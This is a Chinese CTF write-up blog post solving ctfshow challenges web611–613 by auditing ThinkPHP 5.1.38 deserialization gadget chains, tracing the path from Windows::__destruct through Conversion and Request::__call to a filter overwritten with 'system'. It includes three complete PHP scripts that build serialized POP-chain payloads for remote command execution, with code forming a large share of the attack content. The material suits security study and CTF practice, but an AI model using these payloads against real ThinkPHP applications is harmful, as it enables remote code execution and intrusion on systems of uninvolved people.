+++
title = "ctfshow的thinkphp专题(续集一)"
slug = "ctfshow-thinkphp-special-sequel-1"
description = "TP"
date = "2025-02-20T15:28:51"
lastmod = "2025-02-20T15:28:51"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["thinkphp"]
+++

之前那篇终于是写完了 ，但是由于原因([上篇文章](https://baozongwi.xyz/2024/10/16/ctfshow%E7%9A%84thinkphp%E4%B8%93%E9%A2%98/)里)，所以来开续集

## web611

网上github下载到源码 [gayhub上的源码](https://github.com/top-think/framework/releases/tag/v5.1.38)  然后把thinkphp文件夹换到刚才审计非强制路由的源码里面就可以快乐审计了，把`application/index/controller/Index.php`改成

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {

        if(isset($_POST['data'])){
            @unserialize($_POST['data']);
        }
        highlight_string(file_get_contents(__FILE__));
    }
}
```

开始审计，首先是最开始`thinkphp/library/think/process/pipes/Windows.php`的`__destruct()`



`close()`方法什么都没有，但是`removeFiles()`的`file_exists($filename)`可以触发`__toString()`



`thinkphp/library/think/model/concern/Conversion.php`的方法才可以用





触发`$this->toArray()`，我们要让触发下一个方法，但是看了整个代码，也只有这里是参数可控的，才有可能往外走



跟进`thinkphp/library/think/model/concern/RelationShip.php`的`getRelation`，发现恒定返回null值



出来之后就还会进入`thinkphp/library/think/model/concern/Attribute.php`的`getAttr()`，然后`getData()`





那么得知`$this->data[$name]`的值就是`$relation`，并且看到这个类`Attribute`是`trait`，而不是`class`，

> 自 PHP 5.4.0 起，PHP 实现了一种代码复用的方法，称为 `trait`。通过在类中使用`use` 关键字，声明要组合的Trait名称。所以，这里类的继承要使用`use`关键字。

这些方法我们都要使用，那我们就需要一个类同时继承了`Attribute`类和`Conversion`类。在`\thinkphp\library\think\Model.php`中找到这样一个类`Model`，



并且由于不存在`visible`方法，所以能触发`__call`，找到`thinkphp/library/think/Request.php`的可以进行利用



`array_unshift`将当前对象实例`$this`插入参数数组`$args`的开头，那就不好直接调函数来RCE了，因为可控参数不够，但是我们可以采取覆盖filter的方法



那就可以狠狠调用了，但是值又是不可控的，我们传不进去，找哪里调用了这个函数，开始反向寻找

```php
public function input($data = [], $name = '', $default = null, $filter = '')
    {
        if (false === $name) {
            // 获取原始数据
            return $data;
        }

        $name = (string) $name;
        if ('' != $name) {
            // 解析name
            if (strpos($name, '/')) {
                list($name, $type) = explode('/', $name);
            }

            $data = $this->getData($data, $name);

            if (is_null($data)) {
                return $default;
            }

            if (is_object($data)) {
                return $data;
            }
        }

        // 解析过滤器
        $filter = $this->getFilter($filter, $default);

        if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);
            if (version_compare(PHP_VERSION, '7.1.0', '<')) {
                // 恢复PHP版本低于 7.1 时 array_walk_recursive 中消耗的内部指针
                $this->arrayReset($data);
            }
        } else {
            $this->filterValue($data, $name, $filter);
        }

        if (isset($type) && $data !== $default) {
            // 强制类型转换
            $this->typeCast($data, $type);
        }

        return $data;
    }
```

input可以调用，继续反向寻找

```php
public function param($name = '', $default = null, $filter = '')
    {
        if (!$this->mergeParam) {
            $method = $this->method(true);

            // 自动获取请求变量
            switch ($method) {
                case 'POST':
                    $vars = $this->post(false);
                    break;
                case 'PUT':
                case 'DELETE':
                case 'PATCH':
                    $vars = $this->put(false);
                    break;
                default:
                    $vars = [];
            }

            // 当前请求参数和URL地址中的参数合并
            $this->param = array_merge($this->param, $this->get(false), $vars, $this->route(false));

            $this->mergeParam = true;
        }

        if (true === $name) {
            // 获取包含文件上传信息的数组
            $file = $this->file();
            $data = is_array($file) ? array_merge($this->param, $file) : $this->param;

            return $this->input($data, '', $default, $filter);
        }

        return $this->input($this->param, $name, $default, $filter);
    }
```

还是不可控，继续



哇达西，这就是金色传说，就可以从config里面去控制来赋值回去，`input`的`$data = $this->getData($data, $name);`这里我们要跟进一下，看看



会进行一个嵌套赋值，再跟进一下`getFilter`函数来看看



`array_walk_recursive($data, [$this, 'filterValue'], $filter);`会到`filterValue()`，主要就是看赋值是怎么来的，`filterValue.value`的值为第一个通过`GET`请求的值，而`filters.key`为`GET`请求的键，并且`filters.filters`就等于`input.filters`的值。

由于`Model`类是抽象类所以我们只能再找个子类才能实例化，`thinkphp/library/think/model/Pivot.php`中的`Pivot`类

```php
<?php
namespace think;
abstract class Model{
    protected $append=[];
    private $data=[];
    function __construct(){
        $this->append=["a"=>["a","a"]];
        $this->data=["a"=>new Request()];
    }
}
class Request{
    protected $hook=[];
    protected $filter=[];
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    function __construct(){
        $this->filter="system";
        $this->config=["var_ajax"=>""];
        $this->hook=["visible"=>[$this,"isAjax"]];
    }
}
namespace think\process\pipes;
use think\model\concern\Conversion;
use think\model\Pivot;
class Windows{
    private $files=[];
    public function __construct(){
        $this->files=[new Pivot()];
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model{}
use think\process\pipes\Windows;
echo urlencode(serialize(new Windows()));
```

## web612

发现链子不通了，我们找一条类似的，发现其实就是最后的地方不对了



找到一个类似的方法，稍微改一下就可以了

```php
<?php
namespace think;
abstract class Model{
    protected $append=[];
    private $data=[];
    function __construct(){
        $this->append=["a"=>["a","a"]];
        $this->data=["a"=>new Request()];
    }
}
class Request{
    protected $hook=[];
    protected $filter=[];
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    function __construct(){
        $this->filter="system";
        $this->config=["var_pjax"=>""];
        $this->hook=["visible"=>[$this,"isPjax"]];
    }
}
namespace think\process\pipes;
use think\model\concern\Conversion;
use think\model\Pivot;
class Windows{
    private $files=[];
    public function __construct(){
        $this->files=[new Pivot()];
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model{}
use think\process\pipes\Windows;
echo urlencode(serialize(new Windows()));
```

## web613

我们直接再找一个触发input的方法就可以了



这条链子可以打到底了

```php
<?php
namespace think;
abstract class Model{
    protected $append=[];
    private $data=[];
    function __construct(){
        $this->append=["a"=>["a","a"]];
        $this->data=["a"=>new Request()];
    }
}
class Request{
    protected $hook=[];
    protected $filter=[];
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    function __construct(){
        $this->filter="system";
        $this->config=["var_pjax"=>""];
        $this->hook=["visible"=>[$this,"request"]];
    }
}
namespace think\process\pipes;
use think\model\Pivot;
class Windows{
    private $files=[];
    public function __construct(){
        $this->files=[new Pivot()];
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model{}
use think\process\pipes\Windows;
echo urlencode(serialize(new Windows()));
```

## 小结

好难啊，真的好难，但是还是坚持下来了，我的待审是一坨，上次SUCTF的短的Cakephp给我打出自信来了
